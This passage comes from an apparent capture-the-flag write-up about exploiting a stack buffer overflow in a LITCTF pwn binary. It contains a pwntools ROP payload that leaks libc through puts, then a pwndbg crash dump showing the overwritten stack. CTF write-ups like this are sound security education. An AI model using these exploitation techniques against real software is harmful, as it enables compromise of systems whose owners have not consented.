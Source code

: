 Then again after stumbling some time , I discovered that by making a 64 bytes overflow in the in the username buffer , the puts after leaking our sweet libc returns to that memory location.   
```py
def leak_value():
	payload = flat (
	pop_rdi,
	elf.got['puts'],
	elf.plt['puts']
)
	return payload

payload = leak_value()

main_addr = p64(elf.sym['main'])
main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'
print(len(password))
p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(16) + main_addr + cyclic(9) + payload )
```
```asm wrap=false showLineNumbers=false

Program received signal SIGSEGV, Segmentation fault.
0x00007c45e45f1e9a in __GI__IO_puts (str=<optimized out>) at ioputs.c:46
46	in ioputs.c
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────
 RAX  7
 RBX  0
 RCX  0x7c45e47587b0 (_IO_stdfile_1_lock) ◂— 0
 RDX  0x7c45e47587b0 (_IO_stdfile_1_lock) ◂— 0
 RDI  0
 RSI  0x1d84e2a0 ◂— 0xa0a7c45e45f1da0
 R8   0
 R9   0
 R10  0
 R11  0x202
 R12  0x7ffe6018dc98 —▸ 0x7ffe6018fc4a ◂— '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
 R13  1
 R14  0x7c45e47cc000 (_rtld_global) —▸ 0x7c45e47cd310 ◂— 0
 R15  0
 RBP  0x6961616168616161 ('aaahaaai')
 RSP  0x7ffe6018db90 ◂— 'qaaaraaasaaataaauaaavaaawaaaxaa'
 RIP  0x7c45e45f1e9a (puts+250) ◂— ret 
───────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────
   0x7c45e45f1e92 <puts+242>    pop    rbx
   0x7c45e45f1e93 <puts+243>    pop    r12
   0x7c45e45f1e95 <puts+245>    pop    r13
   0x7c45e45f1e97 <puts+247>    pop    r14
   0x7c45e45f1e99 <puts+249>    pop    rbp
 ► 0x7c45e45f1e9a <puts+250>    ret                                <0x6161617261616171>
    ↓




────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffe6018db90 ◂— 'qaaaraaasaaataaauaaavaaawaaaxaa'
01:0008│     0x7ffe6018db98 ◂— 'saaataaauaaavaaawaaaxaa'
02:0010│     0x7ffe6018dba0 ◂— 'uaaavaaawaaaxaa'
```